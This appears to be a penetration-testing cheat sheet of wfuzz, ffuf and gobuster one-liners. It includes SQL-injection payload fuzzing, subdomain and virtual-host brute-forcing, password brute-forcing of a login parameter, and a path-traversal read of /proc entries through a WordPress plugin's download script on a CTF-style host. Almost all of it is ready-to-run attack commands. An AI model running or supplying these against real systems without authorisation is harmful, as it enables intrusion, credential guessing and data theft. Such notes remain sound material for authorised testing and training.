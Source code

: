 ##   [+]  WFuzz - SQL

wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d 'db=FUZZ' --hl 16 http://<RHOST>/select http


##   [+]  WFuzz - DNS

wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Origin: http://FUZZ.<RHOST>" --filter "r.headers.response~'Access-Control-Allow-Origin'" http://<RHOST>/
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,404,403 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> -t 100
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,403,404 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> --hw <value> -t 100


##   [+]  WFuzz - Numbering Files

wfuzz -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt --hw 31 http://10.13.37.11/backups/backup_2021052315FUZZ.zip


##   [+]  WFuzz - Enumerating PIDs

wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000









##  
ffuf -u http://FUZZ.$DM/ -t 100 -p '1.0-2.0' -w ~/wordlists/subdomains.txt -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.77 Safari/537.36" -mc 200 -r -o .tmp/ffuf.json -s 2> /dev/null &> /dev/null


##  Wfuzz style of URL param fuzzing:

ffuf -w /usr/share/commix/src/txt/passwords_john.txt    -u 'http://eve.example.com/url/path?username=alice&password=FUZZ'  --fw 3  -c



##  Dirbuster/gobuster style of URL path fuzzing:

ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt  -u http://eve.example.com/url/path/FUZZ  -e php




##  
gobuster dns -d $DM --no-error -z -q -t 100 -w ~/wordlists/subdomains.txt 2> /dev/null | sed 's/Found: //g' | anew -q .tmp/gobuster.list
 